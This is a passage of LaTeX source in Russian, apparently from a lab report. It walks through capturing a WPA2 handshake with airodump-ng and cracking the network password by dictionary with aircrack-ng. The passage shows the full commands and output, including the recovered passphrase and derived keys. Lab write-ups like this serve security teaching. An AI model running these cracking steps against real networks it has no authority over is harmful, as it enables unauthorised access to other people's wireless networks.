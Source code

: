\documentclass[utf8x, 12pt]{G7-32}
\begin{document}
В результате словим пакет handshake:

\begin{lstlisting}
airodump-ng mon0 --bssid 1C:7E:E5:39:26:F8 -c 6 
--write dump --ignore-negative-one
 CH  6 ][ Elapsed: 1 min ][ 2015-06-03 21:30 ][ WPA handshake: 1C:7E:E5:39:26:F
                                                                               
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH E
                                                                               
 1C:7E:E5:39:26:F8  -47 100      880      791    4   4  54e. WPA2 CCMP   PSK  11
                                                                               
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes     
                                                                               
 1C:7E:E5:39:26:F8  74:E5:43:65:15:F5  -32    0e- 1      0      645  18   
\end{lstlisting}



\subsection{Подбор пароля с помощью словаря}

\begin{lstlisting}
aircrack-ng dump-05.cap -w English.dic 
Opening dump-05.cap
Read 20931 packets.

   #  BSSID              ESSID                     Encryption

   1  1C:7E:E5:39:26:F8  18                        WPA (1 handshake)

Choosing first network as target.

Opening dump-05.cap
Reading packets, please wait...

                                 Aircrack-ng 1.1


                   [00:01:51] 91444 keys tested (845.44 k/s)


                         KEY FOUND! [ execombat112 ]


      Master Key     : CB A9 50 ED 43 34 9F 6E C1 CD 22 48 71 3C 21 F3 
                       7D 11 CE BF 37 E0 B4 62 CE 4B EC 03 32 DB 47 B1 

      Transient Key  : 9B 6F B4 1A E5 6C E0 96 13 BD CB 53 47 F5 E6 AE 
                       74 18 DC B4 6B 74 CE AF CD 52 B1 E8 A3 00 73 B8 
                       43 D3 84 3B C2 74 7C 4E BE 74 3B A5 80 5D 4F 92 
                       25 8C 45 86 45 97 1A 41 E6 58 18 9E 94 FE 1C BB 

      EAPOL HMAC     : 23 38 A3 41 34 98 88 00 4C 73 54 67 39 E9 DB 87 
\end{lstlisting}
\end{document}
